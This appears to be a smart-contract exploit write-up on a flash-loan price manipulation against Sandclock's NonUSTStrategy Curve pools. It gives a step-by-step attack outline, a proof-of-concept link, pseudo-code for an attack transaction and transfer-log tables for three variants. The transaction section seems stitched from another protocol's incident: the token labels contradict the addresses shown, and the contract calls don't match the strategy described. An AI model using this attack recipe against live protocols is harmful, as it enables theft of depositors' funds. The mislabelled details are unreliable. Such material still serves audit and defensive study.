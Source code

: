## Source Code
https://github.com/code-423n4/2022-01-sandclock/blob/a90ad3824955327597be00bb0bd183a9c228a4fb/sandclock/contracts/strategy/NonUSTStrategy.sol#L135

## POMA
In short, the NonUSTStrategy is vulnerable to attacks by flash loans on curve pools.

Here's an outline of the attack:

Assume there is a vault with DAI underlying and a NonUSTStrategy with a DAI / UST curve pool
Take out a flash loan of DAI
Exchange a ton of DAI for UST
The exchange rate from DAI to UST has gone up (!!)
Withdraw or deposit from vault with more favorable terms than market
Transfer back UST to DAI
Repay flash loan
Proof of Concept
Here is my proof of concept: https://gist.github.com/CamdenClark/932d5fbeecb963d0917cb1321f754132

## Attack Transaction
```
// assign values
operator = 0x85beF3a368849FC1ff6820af7382372e30830986 (msg.sender)
token1 = 0xa0b86991c6218b36c1d19d4a2e9eb0ce3606eb48 (DAI)
token2 = 0xc02aaa39b223fe8d0a0e5c4f27ead9083c756cc2 (UST)
amount0Out = 10e8
amount1Out = 0
to = operator
token = token2
inAmount = amount0Out
amountOut = 0
amountInMax = amount0Out
pairs = [0xb4e16d0168e52d35cacd2c6185b44281ec28c9dc (UniSwapV2)]
tokens = [USDC]
deadline = block.timestamp + 7200

// execution path
UniSwapV2.swap(amount0Out, amount1Out, to, bytes(0))
PriceAware.getCurrentPriceInPeg(token, inAmount, forceCurBlock=true)
MarginRouter.crossSwapTokensForExactTokens(amountOut, amountInMax, pairs, tokens, deadline)
```
## Transfer Event
### Variant 1 (single transaction)
```
block_hash, transaction_hash, log_index, token_address, from_address, to_address, value
block#1, transaction#1, log#1, token1, operator, UniSwapV2, 10e8
block#1, transaction#1, log#2, token2, UniSwapV2, operator, 71777521544720215
block#1, transaction#1, log#3, token2, operator, MarginRouter, 71777521544720215
block#1, transaction#1, log#4, token1, operator, MarginRouter, 145927841345707238222094
block#1, transaction#1, log#5, token2, operator, MarginRouter, 71777521544720215
block#1, transaction#1, log#6, token1, operator, MarginRouter, 145927841345707238222094
```


### Variant 2 (separate transaction, same block)
1 POMA + 2 Arbitrage

```
block_hash, transaction_hash, log_index, token_address, from_address, to_address, value
block#1, transaction#1, log#1, token1, operator, UniSwapV2, 10e8
block#1, transaction#1, log#2, token2, UniSwapV2, operator, 71777521544720215
block#1, transaction#2, log#1, token2, operator, MarginRouter, 71777521544720215
block#1, transaction#2, log#2, token1, operator, MarginRouter, 145927841345707238222094
block#1, transaction#3, log#1, token2, operator, MarginRouter, 71777521544720215
block#1, transaction#3, log#2, token1, operator, MarginRouter, 145927841345707238222094
```

### Variant 3 (separate transaction, separate block)
1 POMA + 2 Arbitrage

```
block_hash, transaction_hash, log_index, token_address, from_address, to_address, value
block#1, transaction#1, log#1, token1, operator, UniSwapV2, 10e8
block#1, transaction#1, log#2, token2, UniSwapV2, operator, 71777521544720215
block#2, transaction#2, log#1, token2, operator, MarginRouter, 71777521544720215
block#2, transaction#2, log#2, token1, operator, MarginRouter, 145927841345707238222094
block#2, transaction#3, log#1, token2, operator, MarginRouter, 71777521544720215
block#2, transaction#3, log#2, token1, operator, MarginRouter, 145927841345707238222094
```